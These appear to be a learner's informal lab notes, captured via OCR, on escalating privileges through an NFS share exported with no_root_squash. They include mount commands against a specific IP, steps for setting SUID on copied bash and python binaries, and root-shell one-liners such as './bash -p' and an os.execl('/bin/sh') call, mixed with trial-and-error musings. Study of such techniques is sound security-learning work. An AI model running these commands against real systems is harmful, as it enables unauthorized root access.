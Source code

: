 

  authorized_keys=jdoe_key.pub



dpkg --list
of course nfs-kerne-server is installed on the target host



umount = unmount


## Exploitation and Initial access

## Post exploitation and Privilege escalation



NFS 
cat /etc/exports  : nfs config
/home/jdoe 
no_root_squash

so this is server and
go to the host - /mnt/test and 
sudo mount 172.31.186.85:/home/jdoe /mnt/test  
sudo mount 172.31.186.85:/home/jdoe /mnt/test/1234?
  if you don't see the dir, cd .. and get back.

python3 script and SUID? 
  chmod +s .py
  no I think sudo python3 means need to set SUID on python binary. that doesn't make sense. 
    but I'm wondering how about 4777? and 
    no it's not `sudo ` just when you execute without sudo command you're at root  

    sh shell script
      no it's not working
chown - add them into group ?


so I can write at /home/jdoe 
upload 
and I can command sudo at /home/jdoe 
sudo shell execute 


because only put SUID on binary file. 
/bin/bash
.sh shell file is not working as execute


how about another file? or what if TARGET: cp /bin/bash . ?
 > if you wanna set SUID, the owner needs to be root. and set SUID.
 python -c 'import os; os.system("/bin/sh")'
  - python version needs to be same for compatibility  > copy target's python 
  - ./python3 normal shell doesn't work 
  ./bash -p
  ./python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
